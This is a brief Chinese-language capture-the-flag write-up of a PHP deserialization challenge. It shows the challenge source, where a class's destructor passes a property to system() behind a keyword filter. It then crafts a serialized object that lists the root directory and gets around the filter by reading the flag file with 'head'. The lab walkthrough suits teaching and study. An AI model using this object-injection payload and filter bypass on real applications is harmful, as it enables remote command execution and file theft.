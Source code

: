 ```php
<?php
//highlight_file(__FILE__);
// Maybe you need learn some knowledge about deserialize?
class evil {
    public $cmd="ls /";

//    public function __destruct()
//    {
//        if(!preg_match("/cat|tac|more|tail|base/i", $this->cmd)){
//            @system($this->cmd);
//        }
//    }
}
$a=new evil();
echo serialize($a);
//@unserialize($_POST['unser']);
?>
```

接着传入参数

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732941294102-f40a944b-aa1f-4119-874a-6a556e55f775.png)

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732941308271-76cdab20-9b4c-4103-8a0f-815621449c75.png)

发现根目录下储存在类似于flag的文件 

由于这里过滤了许多可以查看读取flag的关键字 所以我们这里使用head 所以给cmd赋值

```php
cmd="head /th1s_1s_fffflllll4444aaaggggg"
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732941538396-845809f8-b7c4-40ff-aaaa-4baadab522b6.png)

传参

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732941591053-31eb6288-a911-4d19-ae9e-34811405ab68.png)

得到flag

